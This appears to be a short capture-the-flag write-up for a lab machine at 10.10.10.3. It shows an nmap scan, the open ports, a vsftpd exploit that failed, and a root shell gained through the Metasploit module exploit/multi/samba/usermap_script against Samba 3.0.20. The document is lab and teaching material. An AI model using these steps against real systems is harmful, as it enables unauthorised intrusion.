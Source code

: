 **IPv4:** 10.10.10.3

## Enumeration/Scanning

sudo nmap -A -Pn -sS -oN lame 10.10.10.3

Ports
* 445 tcp samba
* 21 tcp ftp
* 22 tcp ssh
* 139 tcp samba

using searchsploit, I found vsftpd 2.3.4 to have an exploit, but using msfconsole it did not work.

Moving to samba

searchsploit found an exploit for Samba 3.0.20

https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/

using msfconsole
* search samba 3.0.20
* use exploit/multi/samba/usermap_script

set RHOST and LHOST

exploit

rooted, found root flag and user flag.

## Exploitation


## Privilege Escalation


## Post-exploitation

